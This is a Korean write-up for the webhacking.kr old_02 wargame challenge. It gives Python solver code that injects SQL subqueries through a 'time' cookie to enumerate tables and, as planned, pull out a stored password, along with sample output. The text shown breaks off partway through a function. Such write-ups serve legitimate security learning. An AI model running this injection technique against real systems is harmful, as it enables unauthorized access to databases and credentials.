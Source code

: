 여기서 얻어야 하는 값의 순서는 다음과 같다.
1. 테이블 개수
2. 비밀번호가 담긴 테이블 이름
3. 해당 테이블 내부의 컬럼 개수
4. 비밀번호를 담고있을 만한 컬럼 이름
5. 해당 컬럼에서 비밀번호 가져오기
### 테이블 개수 구하는 함수

```python
import requests
from datetime import datetime

class Solver:
    """Solver for webhacking.kr old_02"""
    def __init__(self) -> None:
        self.url = "https://webhacking.kr/challenge/web-02"

    def _query_time(self, query) -> int:
        resp = requests.get(self.url, cookies={"time": f"{query}"})
        html_text = resp.text

        start = html_text.find("<!--") + 4  # Move past the "<!--"
        end = html_text.find("-->")

        time_part = html_text[start:end].strip().split()[1]

        # Convert to a datetime object
        time_obj = datetime.strptime(time_part, "%H:%M:%S")
        
        # Calculate seconds past 09:00:00
        base_time = datetime.strptime("09:00:00", "%H:%M:%S")
        seconds_difference = (time_obj - base_time).seconds
        
        return int(seconds_difference)
    
    def _get_table_count(self) -> int:
        query = "(SELECT COUNT(table_name) FROM information_schema.tables where table_schema = database())"
        return self._query_time(query)

    def solve(self) -> None:
        table_count = self._get_table_count()
        print("Number of Tables:", table_count)

if __name__ == "__main__":
    solver = Solver()
    solver.solve()
```
`_query_time()`함수로 특정 쿼리를 담은 쿠키와 함께 GET 요청해서 HTML 값을 받아오는 원리이다. 특정 쿼리 값은 `_query_time()`을 호출할 때 인자로 넘겨준다.<br />

```
❯ /usr/local/bin/python3 /Users/hoonyim/Desktop/HACKs/WEB/webhacking.kr/old_2.py
Number of Tables: 2
```
코드를 실행하면 위와 같은 결과가 나온다. 즉, 테이블의 개수는 2개이다.
### 비밀번호가 담긴 테이블의 이름 구하는 함수
#### 테이블 이름의 길이 구하기
```python
def _get_table_name_len(self, table_count: int) -> list[int]:
arr = []
	for i in range(0, table_count):
		query = f"(SELECT LENGTH(table_name) from information_schema.tables where table_schema=database() limit {i}, 1)"
```